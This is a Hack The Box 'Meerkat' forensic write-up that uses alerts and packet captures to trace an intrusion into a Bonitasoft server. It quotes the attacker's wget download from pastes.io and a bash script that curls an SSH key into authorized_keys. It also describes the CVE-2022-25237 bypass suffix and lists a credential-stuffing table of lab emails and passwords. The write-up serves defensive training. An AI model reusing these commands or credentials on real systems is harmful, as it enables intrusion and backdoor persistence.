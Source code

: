 ```yaml
---
tags:
  - htb
  - sherlock
  - soc
  - pcap
  - siem
  - alerts
  - json
  - wireshark
  - jq
  - forensic
  - exploit
aliases:
  - Meerkat
date: 2024-06-12
---
```


### Scenario
As a fast-growing startup, Forela has been utilising a business management platform. Unfortunately, our documentation is scarce, and our administrators aren't the most security aware. As our new security provider we'd like you to have a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

### Artifacts
| Artifact            | MD5 Hash                         | Password    |
| ------------------- | -------------------------------- | ----------- |
| meerkat.zip         | 9b8369a0fcd7f95889c28da597951ad3 | hacktheblue |
| meerkat-alerts.json | f9642326d526c4f5159470b1c5d89b4a | n/a         |
| meerkat.pcap        | 7ac62b1e835e0850104f1fc2ecf1f002 | n/a         |

### Tools Used
+ `jq` JSON parser - Analyzing the JSON file.
+ WireShark - Analyzing the PCAP file.

### Forensic Analysis

**Using `jq` I quickly searched for alerts with severity level 1.**
```json
$ cat meerkat-alerts.json| jq '.[] | select(.alert.severity==1)' | less
<--snip-->
{
  "ts": "2023-01-19T15:31:31.042Z",
  "event_type": "alert",
  "src_ip": "156.146.62.213",
  "src_port": 53196,
  "dest_ip": "172.31.6.44",
  "dest_port": 8080,
  "vlan": null,
  "proto": "TCP",
  "app_proto": "http",
  "alert": {
    "severity": 1,
    "signature": "ET WEB_SPECIFIC_APPS Bonitasoft Default User Login Attempt M1 (Possible Staging for CVE-2022-25237)",
    "category": "Attempted Administrator Privilege Gain",
    "action": "allowed",
    "signature_id": 2036815,
    "gid": 1,
    "rev": 1,
    "metadata": {
      "signature_severity": [
        "Minor"
      ],
      "former_category": [
        "WEB_SPECIFIC_APPS"
      ],
      "attack_target": [
        "Server"
      ],
      "deployment": [
        "SSLDecrypt",
        "Perimeter"
      ],
      "affected_product": null,
      "created_at": [
        "2022_06_03"
      ],
      "performance_impact": [
        "Low"
      ],
      "updated_at": [
        "2022_06_03"
      ],
      "malware_family": null,
      "tag": null,
      "cve": [
        "CVE_2022_25237"
      ]
    }
  },
  "flow_id": 1652763046938834,
  "pcap_cnt": 2168,
  "tx_id": 0,
  "icmp_code": null,
  "icmp_type": null,
  "tunnel": null,
  "community_id": "1:0XAwrtog1jdopmX+yd1WRDEzMAc="
}
```

Looks like a TA was brute forcing the default credentials for Bonitasoft to exploit the CVE-2022-25237. I confirmed the credential stuffing attack by analyzing the PCAP file.

**PCAP Analysis Using WireShark**
![[Pasted image 20240612174728.png]]

Analyzing the PCAP file it was confirmed that the TA successfully gained access to an account with the credential `seb.broom@forela.co.uk:g0vernm3nt`. And then gained privileged access to the Web Application's REST API by exploiting CVE-2022-25237. After getting privileged access to the Bonita web service the TA uploaded a malicious API extension to get command execution on the web application server.
![[Pasted image 20240612175559.png]]

The TA successfully gained command execution on the server.
![[Pasted image 20240612181452.png]]
![[Pasted image 20240612181529.png]]


**CVE-2022-25237**
According to [NIST](https://nvd.nist.gov/vuln/detail/CVE-2022-25237), *Bonita Web 2021.2 is affected by a authentication/authorization bypass vulnerability due to an overly broad exclude pattern used in the RestAPIAuthorizationFilter. By appending ;i18ntranslation or /../i18ntranslation/ to the end of a URL, users with no privileges can access privileged API endpoints. This can lead to remote code execution by abusing the privileged API actions.*

HTTP Object Extraction:
![[Pasted image 20240612180604.png]]

After discovering this incident I extracted all the HTTP TCP stream objects from the PCAP file and found the usernames and passwords combination list used in this security incident. 
```csv
user,password
Clerc.Killich%40forela.co.uk,vYdwoVhGIwJ
Lauren.Pirozzi%40forela.co.uk,wsp0Uy
Merna.Rammell%40forela.co.uk,u7pWoF36fn
Gianina.Tampling%40forela.co.uk,maUIffqQl
Konstance.Domaschke%40forela.co.uk,6XLZjvD
Vida.Murty%40forela.co.uk,4ulecG
Elka.Cavet%40forela.co.uk,n1aSdc
Noam.Harvett%40forela.co.uk,VDt8bh
Norbie.Bartolini%40forela.co.uk,GV2zlop
Cariotta.Whife%40forela.co.uk,x3hoU0
Mella.Amsberger%40forela.co.uk,4nIYM5WqN
Cyndy.Element%40forela.co.uk,ybWxct
Imelda.Braben%40forela.co.uk,dC7bjGLYB
Marven.Samuel%40forela.co.uk,LPU0qQnt108
Osborne.Humpatch%40forela.co.uk,OJ4WHcI4D
Talya.Sterman%40forela.co.uk,3gCERZ2JMh
Drusilla.Nice%40forela.co.uk,l35Euh0T3Am
Tobiah.Horstead%40forela.co.uk,fp0OQl
Kayley.Northway%40forela.co.uk,s9MC7mkdVU
Adora.Mersh%40forela.co.uk,85Hh8JZkJR6
Guss.Botten%40forela.co.uk,sVMRgGmv0sE
Cordelie.Rostron%40forela.co.uk,mAtdcJh
Ellerey.Bierling%40forela.co.uk,Nva0nKTz
Berny.Ferrarin%40forela.co.uk,lPCO6Z
Nefen.Heffernon%40forela.co.uk,VR0ZA8
Skipton.Pickerill%40forela.co.uk,lcsui1Nu
Nola.Crichmer%40forela.co.uk,QGa58W3L
Sharon.Claus%40forela.co.uk,3X4d06I
Bernelle.Draycott%40forela.co.uk,MmxlUAWe0oW
Samaria.Percifull%40forela.co.uk,CUgc3hzHw5g
Puff.Yapp%40forela.co.uk,M08Aae
Cynthia.Hatto%40forela.co.uk,z0NXI6
seb.broom%40forela.co.uk,g0vernm3nt
Alexi.Siman%40forela.co.uk,iUS11pX
Pete.Panons%40forela.co.uk,BKdkGTB
Rakel.Cawley%40forela.co.uk,h4gW3YLwnW9t
Merl.Lavalde%40forela.co.uk,BgfiOVXNLBc
Antoinette.Vittel%40forela.co.uk,bGtHL8cg
Stanleigh.Tuckwell%40forela.co.uk,VQCk8TGn3
Denny.Gepson%40forela.co.uk,q2JqCSXk69
Aline.Rivallant%40forela.co.uk,gFixyf1nGgf
Jordain.Eykel%40forela.co.uk,rnMXBNdNW0
Gypsy.Henric%40forela.co.uk,lLPqVgmHs5F
Adrea.Shervil%40forela.co.uk,7YoFhtUq
Jenilee.Pressman%40forela.co.uk,3eYwLOKhQEcl
Fredrick.Gerraty%40forela.co.uk,W1By0HUByDHO
Ebony.Oleszcuk%40forela.co.uk,uAWnyfKOjQM
Garrard.Colisbe%40forela.co.uk,jMi9iP
Farleigh.Schouthede%40forela.co.uk,JzI6Dvhy
Ahmed.Monteaux%40forela.co.uk,6uskrtw8U
Griffith.Lumm%40forela.co.uk,QPepd0M8wBK
Winston.Conville%40forela.co.uk,cEmh5W2Vh
Pat.Kloisner%40forela.co.uk,N8ZwVMzF6
Teresita.Benford%40forela.co.uk,uvYjtQzX
Mathian.Skidmore%40forela.co.uk,TQSNp6XrK
Gerri.Cordy%40forela.co.uk,w15pvWGTK
```

I also found an interesting file named `bx5gcr0et8`.
```json
{"p":"0","c":"1","cmd":"wget https://pastes.io/raw/bx5gcr0et8","out":"--2023-01-19 15:38:52--  https://pastes.io/raw/bx5gcr0et8\nResolving pastes.io (pastes.io)... 66.29.132.145\nConnecting to pastes.io (pastes.io)|66.29.132.145|:443... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 113 [text/plain]\nSaving to: \u2018bx5gcr0et8\u2019\n\n     0K                                                       100% 57.8M=0s\n\n2023-01-19 15:38:53 (57.8 MB/s) - \u2018bx5gcr0et8\u2019 saved [113/113]\n\n","currentDate":"2023-01-19"}
```

A command was issued to download the file from `pastes.io`.
![[Pasted image 20240612181638.png]]

And then another command was issued to run the `bx5gcr0et8` file which was a bash script.
![[Pasted image 20240612181813.png]]

The contents of the bash script `bx5gcr0et8`:
```bash
**#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart**
```

A persistence technique identified by MITRE with a technique ID [T1098.004](https://attack.mitre.org/techniques/T1098/004/). Basically, the adversary used a public key and inserted in into the `/home/ubuntu/.ssh/authorized_keys` file. This technique needs the derivative `PubkeyAuthentication` set to `yes` in the `/etc/ssh/sshd_config` file. And, also the TA can modify the `sshd_config` file further and set the `RSAAuthentication` to the value `yes`, if the public key algorithm is RSA based.

The Public Key used by the TA:
```text
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgruRMq3DMroGXrcPeeuEqQq3iS/sAL3gryt+nUqbBA/M+KG4ElCvJS4gP2os1b8FMk3ZwvrVTdpEKW6wdGqPl2wxznBjOBstx6OF2yp9RIOb3c/ezgs9zvnaO07YC8Sm4nkkXHgkabqcM7rHEY4Lay0LWF9UbxueSAHIJgQ2ADbKSnlg0gMnJTNRwKbqesk0ZcG3b6icj6nkKykezBLvWc7z4mkSm28ZVTa15W3HUWSEWRbGgJ6eMBdi7WnWXZ92SYDq0XUBV2Sx2gjoDGHwcd6I0q9BU52wWYo3L3LaPEoTcLuA+hnn82086oUzJfmEUtWGlPAXfJBN7vRIMSvsN
```


### Summary
The threat actors used credential stuffing attack against the Bonita Service and escalated their privileges in the web application by exploiting CVE-2022-25237. After that to get remote code execution on the server the threat actors uploaded a malicious extension file which gave them command injection ability. Then, they used this ability to get information of the users and added a SSH backdoor to the `ubuntu` user account for persistence.